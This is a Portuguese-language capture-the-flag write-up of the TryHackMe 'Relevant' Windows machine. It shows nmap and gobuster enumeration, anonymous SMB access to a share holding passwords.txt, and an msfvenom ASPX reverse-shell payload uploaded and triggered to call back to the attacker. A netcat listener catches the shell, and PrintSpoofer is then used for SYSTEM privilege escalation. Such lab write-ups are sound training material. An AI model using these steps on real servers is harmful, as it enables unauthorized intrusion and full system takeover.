



# Relevant Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)
> 
> **Dificuldade:** `Média`
> 
> **Data de Resolução:** `2026/06/14`
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Relevant/(PT-BR)%20Relevant%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Relevant/(PT-BR)%20Relevant%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [Netcat](http://www.stearns.org/nc/)[^netcat]: programa basico de Unix responsável por ler e escrever dados através de conexões de rede. Em um contexto de pentesting, o `netcat` é uma ótima ferramenta para criar conexões com os sistemas na rede e ter acesso a eles de forma remota, permitindo técnicas como a de reverse shell, muito importante também nos contextos de CTF.
- [metasploit](https://www.metasploit.com/)[^metasploit]: framework para penetration testing, suportando todas as suas fases, desde coleta de informações até pós-exploração.  Essa ferramenta automatiza a descoberta, exploração, entrega de payloads (por exemplo, com o msfvenom), obtenção de shells, dentre outros, ou seja, é muito útil para agilizar o processo de pentesting e CTFs.'

Além de recursos como:
- [CyberCheff](https://gchq.github.io/CyberChef/)[^cyber]:  site que facilita a identificação e reversão de dados codificados como base64, códigos hexadecimais, etc. Útil para agilizar o processo e diferenciar hashes de codificações básicas.
- [Printspoofer](https://github.com/dievus/printspoofer/tree/master)[^printspoofer]: exploit que pode ser usado para escalar privilégios em servidores Windows, que foca na configuração `SeImpersonatePrivilege` (configuração que permite usuários e serviços se fazerem passar como outros usuários).
## Resolução do CTF

O CTF Relevant, disponível no TryHackMe, é um desafio de dificuldade média que requer a exploração de um sistema windows para achar a flag de usuário e de root. Esse CTF envolveu o uso de uma vulnerabilidade de um serviço comum servidores de máquinas windows.

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap vul.net -A -p- -T5
```

em que `-T5` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts e `-p-` testa todas as portas. Dados relevantes da enumeração estão a seguir:

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-14 13:31 -0400
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.15s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-06-14T17:35:46+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2026-06-13T17:29:36
|_Not valid after:  2026-12-13T17:29:36
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2026-06-14T17:35:07+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
#[...]
```

em que percebi que o sistema era um servidor Windows, com as portas abertas sendo 80 e 49663 (dois serviços http), dois conjuntos de portas para o serviço SMB (135, 139 e 445, e 49666, 49667 e 49668) e a porta padrão para  o serviço de acesso remoto windows (RDP,  na porta 3389). Decidi enumerar ambos os serviços http com o `gobuster`[^gobuster]:

```sh
gobuster dir -u http://vul.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50   
```

e

```sh
gobuster dir -u http://vul.net:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

Estes comandos buscam os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). Os resultados finais obtidos foram os seguintes (respectivamente para a porta 80 e 49663):

```sh
$ gobuster dir -u http://vul.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 400) [Size: 3420]
*checkout*           (Status: 400) [Size: 3420]
*docroot*            (Status: 400) [Size: 3420]
*                    (Status: 400) [Size: 3420]
devinmoore*          (Status: 400) [Size: 3420]
200109*              (Status: 400) [Size: 3420]
*dc_                 (Status: 400) [Size: 3420]
*sa_                 (Status: 400) [Size: 3420]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

e

```sh
$ gobuster dir -u http://vul.net:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net:49663
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 400) [Size: 3420]
*checkout*           (Status: 400) [Size: 3420]
*docroot*            (Status: 400) [Size: 3420]
*                    (Status: 400) [Size: 3420]
devinmoore*          (Status: 400) [Size: 3420]
200109*              (Status: 400) [Size: 3420]
*sa_                 (Status: 400) [Size: 3420]
*dc_                 (Status: 400) [Size: 3420]
nt4wrksv             (Status: 301) [Size: 153] [--> http://vul.net:49663/nt4wrksv/]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Com isso, comecei a exploração de forma trivial, acessando `http://vul.net`.
### Exploração

Ao acessar `http://vul.net`, deparei-me com uma página padrão de um servidor windows:



Pelos resultados do `gobuster`[^gobuster] eu sabia que não havia nada de interessante para ser explorado, então decidi conectar-me logo ao serviço SMB, tentando identificar o que eu teria acesso sem uma senha:

```sh
$ smbclient -L //vul.net/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to vul.net failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Uma pasta compartilhada não padrão do SMB, `nt4wrksv` estava presente. Enumerando os seus conteúdos encontrei o arquivo `passwords.txt`:

```sh
$ smbclient //vul.net/nt4wrksv -N
smb: \> l
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4905180 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit   
```

O arquivo continha duas strings codificadas e um texto que indicava que cada uma delas era um par de usuário e senha. Usando o `CyberChef`[^cyber] descobri que essas strings estavam encriptadas com Base64:




Como a máquina estava executando o Microsoft IIS, usei o `msfvenom`[^metasploit] para gerar um payload no formato ASPX, compatível com esse serviço: 

```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOSt=<MY_IP> LPORT=53 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3452 bytes
Saved as: rev.aspx
```

E inseri esse código na pasta `nt4wrksv`:

```sh
$ smbclient //vul.net/nt4wrksv -N                                                             
Try "help" to get a list of possible commands.
smb: \> put rev.aspx
putting file rev.aspx as \rev.aspx (7.6 kB/s) (average 7.6 kB/s)
```

Pelos resultados do `gobuster`[^gobuster], eu sabia que o diretório `nt4wrksv` era acessível pelo serviço http na porta 49663. Assim, abri uma escuta com o `netcat`[^netcat] para a porta 53 (a que indiquei no payload) e acessei `http://vul.net:49663/nt4wrksv/rev.aspx`, o que abriu uma shell reversa[^reverseshell] ao servidor:

```sh
$ nc -nlvp 53
listening on [any] 53 ...
connect to [<MY_IP>] from (UNKNOWN) [<TARGET_IP>] 49976
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Justamente, ao explorar o diretório dos usuários, encontrei uma pasta para o usuário Bob, na qual encontrei  a `<USER_FLAG>` em `user.txt`:

```sh
C:\Users\Bob\Desktop> cat user.txt
cat user.txt
<USER_FLAG>
```
### Escalação de Privilégios

Por fim, era necessário escalar privilégios e encontrar a flag de root. Para isso, testei no terminal as permissões do meu usuário:

```sh
C:\Users\Bob\Desktop> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Assim, descobri que `SeImpersonatePrivilege` estava habilitado, o que permitiria uma escalação de privilégios com o exploit PrintSpoofer[^printspoofer], o inseri na máquina com o serviço SMB:

```sh
$ smbclient //vul.net/nt4wrksv -N                                        
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
```

E consegui obter privilégios de administrador ao executar o programa:

```sh
C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Acessando o diretório `C:\Users\Administrator\Desktop`, encontrei a flag de root, `<ROOT_FLAG>`, presente em `root.txt`:

```sh
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,708,499,456 bytes free

C:\Users\Administrator\Desktop>more root.txt
more root.txt
<ROOT_FLAG>
```

e finalizei o CTF.
## Conclusão

O CTF Relevant permitiu entender princípios de técnicas de exploração de serviços Windows. Por meio do acesso a um serviço de compartilhamento de arquivos, SMB, foi possível identificar um diretório incomum e inserir um código malicioso para realizar um acesso remoto à máquina e encontrar a flag de usuário. A partir disso, foi possível realizar uma escalação de privilégios com a exploração da configuração `SeImpersonatePrivilege` e, assim, obter a flag do root e concluir o CTF.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^netcat]: Netcat: [http://www.stearns.org/nc/](http://www.stearns.org/nc/)
[^metasploit]: Metasploit: [https://www.metasploit.com/](https://www.metasploit.com/)
[^printspoofer]: Printspoofer: [https://github.com/dievus/printspoofer/tree/master](https://github.com/dievus/printspoofer/tree/master)
[^cyber]:  CyberCheff: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
[^reverseshell]: Sobre reverse shells: [https://en.wikipedia.org/wiki/Shell_shoveling](https://en.wikipedia.org/wiki/Shell_shoveling)